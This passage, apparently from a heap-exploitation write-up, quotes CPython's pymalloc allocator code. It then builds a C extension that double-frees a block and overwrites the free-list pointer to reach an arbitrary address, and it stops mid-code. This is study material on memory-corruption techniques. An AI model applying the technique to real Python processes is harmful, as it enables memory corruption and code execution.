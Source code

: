 ```c
        if (UNLIKELY((pool->freeblock = *(block **)bp) == NULL)) {
            // Reached the end of the free list, try to extend it.
            pymalloc_pool_extend(pool, size);
        }
    }
    else {
        /* There isn't a pool of the right size class immediately
         * available:  use a free pool.
         */
        bp = allocate_from_new_pool(size);
    }

    return (void *)bp;
}
```

Does pymalloc check if the block returned from `pymalloc_alloc` is inside its pool area addresses (4k address space)? No
 - cool, we can corrupt the `block->next` and make it point to whatever we want, as no `address_in_range` check is done here
 - Now let's modify the example above by corrupting the pool:

```c
#include <stdio.h>
#include <Python.h>


static PyObject * test_wrapper(PyObject * self, PyObject * args)
{
  size_t n = 512-8;
  unsigned long long target;
  int val;
  void * p1_again;
  void * p_target;

  void * p1 = PyObject_Malloc(n);
  void * p2 = PyObject_Malloc(n);
  void * p3 = PyObject_Malloc(n);
  void * p4 = PyObject_Malloc(n);
  printf("p1: %p\np2: %p\np3: %p\n", p1, p2, p3);

  // get arguments, 1st argument is the address target, 2nd is the value to write on it
  if (!PyArg_ParseTuple(args, "Ki", &target, &val))
    return NULL;

  // first free p2
  PyObject_Free(p2);
  // pool->ref.count=3; pool_header->freeblock = p2;

  // double free
  PyObject_Free(p1);
  // pool->ref.count=2; pool_header->freeblock = p1; p1->next=p2;
  PyObject_Free(p1);
  // pool->ref.count=1; pool_header->freeblock = p1; p1->next=p1;  corrupted

  // get p1 back
  p1 = PyObject_Malloc(n);
  // pool->ref.count=2; pool_header->freeblock = p1; p1->next=p1;

  // corrupt p1 to corrupt block free list
  *(unsigned long long *)p1 = target;
  // pool->ref.count=2; pool_header->freeblock = p1; p1->next=target;

  p1_again = PyObject_Malloc(n);
```